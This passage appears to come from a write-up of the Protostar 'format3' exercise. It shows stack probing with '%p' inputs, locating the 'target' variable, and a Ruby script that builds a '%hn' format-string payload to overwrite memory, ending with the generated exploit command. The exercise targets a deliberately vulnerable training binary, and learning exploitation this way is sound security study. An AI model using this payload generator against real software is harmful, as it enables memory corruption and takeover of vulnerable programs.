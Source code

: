 int main(int argc, char **argv)
{
  vuln();
}
{% endcodeblock %}

{% codeblock %}
user@protostar:~$ ruby -e 'print "DDDD" + " %p" * 25' | /opt/protostar/bin/format3
DDDD (nil) 0xbffff590 0xb7fd7ff4 (nil) (nil) 0xbffff798 0x804849d 0xbffff590 0x200 0xb7fd8420 0xbffff5d4 0x44444444 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520target is 00000000 :(

user@protostar:~$ ruby -e 'print "DDDD %12\$p"' | /opt/protostar/bin/format3 
DDDD 0x44444444target is 00000000 :(

user@protostar:~$ nm /opt/protostar/bin/format3 | grep target
080496f4 B target
{% endcodeblock %}

We need to rewrite the address at `0x080496f4` with the value `0x01025544`. For this purpose we prepare simple ruby script to calculate the exact format string:

{% codeblock lang:ruby formatter.rb %}
#!/usr/bin/env ruby

def check_param(fmt)
    return if fmt =~ /\d+:0x\h+:0x\h+/
    puts "syntax: #{$0} <position:target_address:shellcode_address>"
    exit
end

fmt = ARGV[0]
check_param(fmt)

offset, target_addr, shellcode_addr = fmt.split(":")

# get high / low ordered bytes, remove 0x prefix
hob = shellcode_addr[2,4].to_i(16)
lob = shellcode_addr[6,4].to_i(16)
addr = target_addr[2,8]
o = offset.to_i

a = []
if (hob > lob)
    f = lob - 8; s = hob - lob; a << addr; a << "%08x" % (addr.to_i(16)+2)
else
    f = hob - 8; s = lob - hob; a << "%08x" % (addr.to_i(16)+2); a << addr
end

puts "ruby -e 'print [0x#{a[0]}].pack(\"V\") + [0x#{a[1]}].pack(\"V\") + \"%#{o}\\$#{f}x%#{o}\\$hn%#{o+1}\\$#{s}x%#{o+1}\\$hn\"'"
{% endcodeblock %}

{% codeblock %}
user@protostar:~$ ruby1.9.1 ./formatter.rb 12:0x080496f4:0x01025544
ruby -e 'print [0x080496f6].pack("V") + [0x080496f4].pack("V") + "%12\$250x%12\$hn%13\$21570x%13\$hn"'
